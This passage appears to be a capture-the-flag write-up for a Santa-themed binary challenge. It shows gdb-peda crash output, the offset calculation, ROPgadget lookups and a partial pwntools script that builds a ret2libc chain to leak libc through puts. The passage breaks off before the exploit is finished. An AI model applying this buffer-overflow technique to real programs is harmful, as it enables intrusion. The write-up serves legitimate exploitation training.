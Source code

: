 ```
2. Break it   🔨                                                                                                 
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL           
                                                                                                                 
[-] Mission failed!                                                                                              
                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffde98: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to leak the address of the libc that the program is used. But, before that, since the binary were given, we could use ROPgadget to get the ret and pop_rdi gadget that will be useful in the next steps.
```
$ ROPgadget --binary mr_snowy | grep "ret"
0x000000000040087e : ret
$ ROPgadget --binary mr_snowy | grep "pop rdi"
0x00000000004015c3 : pop rdi ; ret
```

Now, let's try to leak the libc address

## Leaking Libc Address

To leak the libc address, I will use address of `pop_rdi` to clear the `rdi` register and replace it with address of puts from the PLT (Procedure Linkage Table) which is  used to call external procedures/functions whose address isn't known in the time of linking.

If we put the address of PLT puts into the rdi, when it got called, the program will print something (using puts). So we could abuse that and called an address from GOT (Global Offsets Table) which is similarly used to resolve addresses. In this case I will call puts from GOT.

Lastly, we need to re-run the program, so I will call main from the PLT again to redirect the program.

```python
from pwn import *

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
s = elf.process()

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

```

[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  